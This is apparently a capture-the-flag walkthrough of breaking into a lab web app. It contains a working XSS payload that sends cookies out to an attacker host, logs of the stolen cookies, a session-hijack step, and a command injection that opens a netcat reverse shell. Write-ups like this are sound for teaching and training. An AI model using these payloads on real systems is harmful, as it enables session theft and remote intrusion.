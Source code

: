 We run nmap and find that port 5000 is open.

There is a support screen where there is a place to log a support ticket. We input a script there to check for a cross site scripting vulnerability. This is input in burpsuite

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>
```

On our local we run a webserver to to receive a cookie:

```
python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.41 - - [14/Jul/2024 11:08:21] "GET /?
cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

After a gobuster dir attack, we see that there is a /dashboard behind a signin. We use the cookie to login as admin to connect to the /dashboard. First we have to run the cookie against base64

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

We then input the cookie via developer tools in the storage tab.

On the /dashboard page in burpsuite we find that there is a `date` input, we add another command injection there to get a reverse shell on the attacking box.

```
date=2023-09-15;+nc+10.10.14.41+4444+-e+/bin/bash
```

Netcat listens and gets our shell:

```
nc -lnvp 4444
```

